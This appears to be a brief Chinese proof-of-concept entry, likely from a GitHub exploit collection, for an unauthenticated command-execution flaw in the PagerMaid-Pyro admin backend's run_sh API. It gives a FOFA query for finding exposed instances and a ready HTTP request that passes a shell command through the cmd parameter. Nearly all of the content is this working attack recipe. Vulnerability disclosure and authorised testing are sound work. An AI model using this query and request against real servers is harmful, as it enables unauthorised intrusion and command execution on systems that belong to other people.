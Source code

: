# PagerMaid-Pyro后台管理系统run_sh接口存在未授权命令执行漏洞

# fofa
title="PagerMaid-Pyro" && body="href=\"https://xtaolabs.com/pagermaid-logo.png\""

# poc
```
GET /pagermaid/api/run_sh?cmd=id HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
```
